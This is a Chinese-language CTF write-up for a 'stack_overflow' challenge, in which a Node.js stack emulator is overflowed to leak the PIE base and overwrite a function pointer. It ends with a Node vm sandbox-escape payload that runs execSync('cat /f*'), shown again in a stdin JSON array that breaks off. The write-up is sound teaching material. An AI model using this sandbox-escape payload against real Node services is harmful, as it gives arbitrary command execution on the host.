 ![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714313628197-f19852d6-d972-4981-a730-1036683e9208.png)

### stack\_overflow

> Eh？I pwn... really?

题目是用nodejs模仿栈，进行read和write，在栈中read/write前面三个参数分别为长度、地址和变量名

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714315179418-8eeee9fc-36db-4346-8c0d-86b899250dde.png)

然后将一大段code处理一下，扔进去run，循环判断，开始push和pop

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714315334788-d41b4970-7d1f-40f7-be4b-60bdb19a004e.png)

其中如果是call\_interface，就把栈里的东西拿出来到vm执行

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714315101257-c62ffa61-79bf-4174-bb4a-f26dacf4c6e3.png)

代码审计和动态调试一下，发现read是从stdin读取28个值，写入栈底，即前面一堆0到\[\[short - 3\]\]，也就是说能覆盖最后四个数，执行自己想要的命令

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714315585396-6c45e9d0-80d8-40ec-921b-06326d71022c.png)

题目过滤的`call_interface`和`{{}}`，这样我们就不能直接触发匿名函数和直接read/write地址了

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714322475495-b969eaaf-3759-4610-bac6-87f1ad5f1866.png)

我们直接写入27个数，同时让第27个数是个大数字（例如99），覆盖掉数字2，这样会和下面的write泄露信息，输出的内容中stdout前一个就是`[[ 0 ]]`了，也就是泄露pie基址

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714316037532-5ce35671-7bef-48ee-8eb8-c6efc61b94f4.png)

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714321312398-5bb865bd-549c-4177-92e5-e38ed9d8947a.png)

调试一下，发现pie+42就是 `(function (...a){  return a.map(char=>char.charCodeAt(0)).join(' ');})`匿名函数的地址

直接覆盖后四个值，write查看一下，没问题

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714321351141-20f13e31-9786-4c4a-aa3a-b921d182da1e.png)

然后是要read写入恶意代码覆盖函数

这里要vm沙箱逃逸，直接找个payload打，这里我们是直接写到参数'1'那里，恶意代码的单引号会和参数的单引号闭合，所以要用双引号+转义符

```php
(function (...a){  return this.constructor.constructor(\"return process\")().mainModule.require(\"child_process\").execSync(\"cat /f*\").toString();})
```

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714316886105-9dd3b985-7719-41fc-8189-2adb9c371424.png)

成功执行

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714317016658-3540f126-79a1-4988-8c14-2077dfd5443e.png)

```php
{
  "stdin": [
    "(function (...a){  return this.constructor.constructor(\"return process\")().mainModule.require(\"child_process\").execSync(\"cat /f*\").toString();})",
    "2",
    "3",
    "4",
    "5",
    "6",
    "7",
    "8",
    "9",
    "10",
    "11",
```